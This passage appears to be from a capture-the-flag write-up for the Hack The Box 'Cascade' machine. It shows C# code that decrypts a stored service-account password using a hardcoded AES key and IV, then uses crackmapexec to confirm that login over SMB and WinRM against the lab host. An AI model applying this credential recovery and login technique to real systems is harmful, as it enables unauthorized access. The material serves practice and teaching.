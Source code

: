 We find out that the Key is : `c4scadek3y654321`.

We use `https://dotnetfiddle.net/` for doing our job and using the chunk of codes inside the binaries.
```C#
using System;
using System.IO;
using System.Security.Cryptography;
using System.Text;
					
public class Program
{
	public const string DefaultIV = "1tdyjCbY1Ix49842";
	public const int Keysize = 128;
	public static string DecryptString(string EncryptedString, string Key)
	{
		//Discarded unreachable code: IL_009e
		byte[] array = Convert.FromBase64String(EncryptedString);
		Aes aes = Aes.Create();
		aes.KeySize = 128;
		aes.BlockSize = 128;
		aes.IV = Encoding.UTF8.GetBytes("1tdyjCbY1Ix49842");
		aes.Mode = CipherMode.CBC;
		aes.Key = Encoding.UTF8.GetBytes(Key);
		using (MemoryStream stream = new MemoryStream(array))
		{
			using (CryptoStream cryptoStream = new CryptoStream(stream, aes.CreateDecryptor(), CryptoStreamMode.Read))
			{
				byte[] array2 = new byte[checked(array.Length - 1 + 1)];
				cryptoStream.Read(array2, 0, array2.Length);
				return Encoding.UTF8.GetString(array2);
			}
		}
	}
	public static void Main()
	{
		Console.WriteLine(DecryptString("BQO5l5Kj9MdErXx6Q6AGOw==","c4scadek3y654321"));
	}
}
```

![[Pasted image 20210720132353.png]]

We get the password to be `w3lc0meFr31nd`.

Now, Let's Verify our credentials on the `arksvc` user and see if we can login.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/cascade]
└──╼ # crackmapexec smb 10.10.10.182 -u arksvc -p w3lc0meFr31nd
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\arksvc:w3lc0meFr31nd 
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/cascade]
└──╼ # crackmapexec winrm 10.10.10.182 -u arksvc -p w3lc0meFr31nd
WINRM       10.10.10.182    5985   CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\arksvc:w3lc0meFr31nd (Pwn3d!)
```
